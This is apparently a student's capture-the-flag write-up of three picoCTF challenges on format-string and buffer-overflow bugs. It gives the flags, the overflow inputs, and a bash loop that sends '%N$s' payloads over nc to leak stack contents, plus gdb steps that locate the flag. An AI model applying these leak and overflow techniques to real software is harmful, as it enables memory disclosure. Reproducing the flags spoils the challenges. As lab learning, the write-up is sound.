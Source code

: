 
# format string 0

**flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}`

**Thought Process**

* Since the first hint encouraged us to know about **format specifiers**, I knew the vulnerability would be something related to that.
* The second hint told us to try out different options. This, of course, referred to the code giving us options to input and it implied that inputting certain options would give us the flag.

Now, when you initially start the instance from the website, you're shown this:

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

At the first glance, instinctively I picked `Gr%114d_Cheese` has it had a format specifier (denoted by `%`, `%114d` just represents the number of characters it can hold) in it.  Upon that input, we're hit with:

```bash
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

As we can tell, there was a little bit of a glitch with the spacing, which further exposes the format specifier vulnerability. Now, obviously, we're gonna choose the option that has more number of `%`s, which is `Cla%sic_Che%s%steak`.  This then gives us the flag.

**Alternative Method**

After going thru the code provided to us, I noticed that there would be a certain threshold of the amount of characters I can give as input before the program malfunctions. So I tried inputting random number of characters and after I gave it 55 characters (to be exact), it directly spat out the flag.

```bash
shady@WIN-3CTPHJ9NI00:~$ nc mimas.picoctf.net 57883
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: noewnfnufnisbfaeisbfisabfaesbfsbfnefunfeneafaioufbeubfea
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

**Two things I noticed here are**: 
* The long string to be inputted does not require `%`s in it at all. A collection of random alphanumeric characters worked.
* The string had to be exactly 55 characters or more. Although I cannot explain why the number is 55 and not 64 or 32, I found it out thru trial and error. 

**Mistakes Made**

* Spent too much time trying to understand and modify the code to make it give me the flag. Pretty dumb move in hindsight. 

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

**Thought Process**

* Since this is another question using the concept of **buffer overflow**, I juts went thru the code once and noticed that to overflow `buf2`, I'd need to exceed it's capacity of **16 bytes**.
* I started with 16 and eventually, at 20 characters, It outputted the flag.

Here's the input and output for 19 and 20 characters respectively:

```bash
nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssds
The program will exit now
^C

nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssdsh
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


# flag leak

**Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`**

**Thought Process**

* We're given a file `vuln` , when executed using Linux asks us to tell it a story, and our hint is **Format Strings**, so I did some reading on format string vulnerabilities.
* Then I tried a bunch of format specifiers to see how it would react to them: 

![Pasted image 20241206135613](https://github.com/user-attachments/assets/5287c1f7-ab1a-4d10-9e79-d81a68e76e09)


* From this, we can tell that `%x` is the key to getting the program to output the flag, as I understood from the quoted article 

![Pasted image 20241206145855](https://github.com/user-attachments/assets/63bb86c4-b778-4c5a-bcbe-4e2bec75db7c)



* Now, trying to find the address of the flag string can be done using `gdb`, but instead I wrote a small bash script that ran all values from 0-50, and looked inside the contents:
  
```bash
for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 60614; done
```

and this printed out a bunch of random characters UNTILL

![Pasted image 20241206150106](https://github.com/user-attachments/assets/989b1c6b-8af3-4e6a-9ab6-a64642a4b69e)

oh and for efficiency, we can make the script to grep the flag for a cleaner output, our new command would be:

```bash
for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 60614 | grep CTF; done
```

![Pasted image 20241206153037](https://github.com/user-attachments/assets/0729db35-8f56-429b-bcfa-459da25bfe9c)


**Alternative Approach**

* Initially, I tried to find out the memory address of the flag using gdb, to do this, I used the command `gdb` in bash followed by `disass vuln` to come across:

![image](https://github.com/user-attachments/assets/c0741e52-6d3d-4635-b7e4-d54d0cd7ec08)

Here, we see that `readflag` is at the memory address `0x08049355`, So I added a breakpoint right after it at `0x0804935a`, and then ran the program, the commands I used were

```bash
b *0x0804935a
```
 and then 

```bash
run
```

which then prompted this 

![image](https://github.com/user-attachments/assets/d0158948-8fa7-4f16-a099-3275c858db1f)

where we can see that the flag is present in the 24th stack. This way, if we just input `%24$s` to the instance, it will output our flag.

![image](https://github.com/user-attachments/assets/8cea7d63-36c3-41a0-b9ed-c029ae983da7)




**New Things Learnt**

* A better grasp of how to deal with format string vulerabilities.
* Write scripts in bash.
* Locating the memory address of an entity using gbd.



**References**
* https://www.infosecinstitute.com/resources/secure-coding/how-to-exploit-format-string-vulnerabilities/


